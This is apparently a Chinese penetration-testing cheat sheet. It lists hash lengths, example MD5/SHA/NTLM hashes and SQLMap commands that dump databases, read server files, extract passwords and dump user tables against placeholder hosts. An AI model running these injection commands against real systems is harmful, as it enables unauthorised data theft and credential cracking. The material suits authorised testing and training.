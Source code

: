 ## 密码学

### 哈希长度

| 哈希    | 长度       |
| ------- | ---------- |
| MD5     | `16 Bytes` |
| SHA-1   | `20 Bytes` |
| SHA-256 | `32 Bytes` |
| SHA-512 | `64 Bytes` |

### 哈希例子

可以直接使用  **hash-identifier**  命令判断哈希类型，但这里还是举些例子。

| 哈希                    | 例子                                                         |
| ----------------------- | ------------------------------------------------------------ |
| MD5 Hash Example        | `8743b52063cd84097a65d1633f5c74f5`                           |
| MD5 $PASS:$SALT Example | `01dfae6e5d4d90d9892622325959afbe:7050461`                   |
| MD5 $SALT:$PASS         | `f0fda58630310a6dd91a7d8f0a4ceda2:4225637426`                |
| SHA1 Hash Example       | `b89eaac7e61417341b710b727768294d0e6a277b`                   |
| SHA1 $PASS:$SALT        | `2fc5a684737ce1bf7b3b239df432416e0dd07357:2014`              |
| SHA1 $SALT:$PASS        | `cac35ec206d868b7d7cb0b55f31d9425b075082b:5363620024`        |
| SHA-256                 | `127e6fbfe24a750e72930c220a8e138275656b8e5d8f48a98c3c92df2caba935` |
| SHA-256 $PASS:$SALT     | `c73d08de890479518ed60cf670d17faa26a4a71f995c1dcc978165399401a6c4` |
| SHA-256 $SALT:$PASS     | `eb368a2dfd38b405f014118c7d9747fcc97f4f0ee75c05963cd9da6ee65ef498:560407001617` |
| SHA-512                 | `82a9dda829eb7f8ffe9fbe49e45d47d2dad9664fbb7adf72492e3c81ebd3e29134d9bc12212bf83c6840f10e8246b9db54a4859b7ccd0123d86e5872c1e5082f` |
| SHA-512 $PASS:$SALT     | `e5c3ede3e49fb86592fb03f471c35ba13e8d89b8ab65142c9a8fdafb635fa2223c24e5558fd9313e8995019dcbec1fb584146b7bb12685c7765fc8c0d51379fd` |
| SHA-512 $SALT:$PASS     | `976b451818634a1e2acba682da3fd6efa72adf8a7a08d7939550c244b237c72c7d42367544e826c0c83fe5c02f97c0373b6b1386cc794bf0d21d2df01bb9c08a` |
| NTLM Hash Example       | `b4b9b02e6f09a9bd760f388b67351e2b`                           |

## SQLMap例子

小型 SQLMap 速查表：

| 命令                                                         | 解释                                                         |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| `sqlmap -u http://meh.com --forms --batch --crawl=10  --cookie=jsessionid=54321 --level=5 --risk=3` | 自动化sqlmap扫描                                             |
| ` sqlmap -u TARGET -p PARAM --data=POSTDATA --cookie=COOKIE  --level=3 --current-user --current-db --passwords  --file-read="/var/www/blah.php" ` | 指定目标的sqlmap scan                                        |
| `sqlmap -u "http://meh.com/meh.php?id=1" --dbms=mysql --tech=U --random-agent --dump ` | 使用联合查询技术扫描mysql后端的基于报错的注入 ，使用随机UA，导出数据库 |
| `sqlmap -o -u "http://meh.com/form/" --forms`                | 检测可能存在注入点表单                                       |
| `sqlmap -o -u "http://meh/vuln-form" --forms  -D database-name -T users --dump` | 导出指定数据库的user表并尝试破解哈希。                       |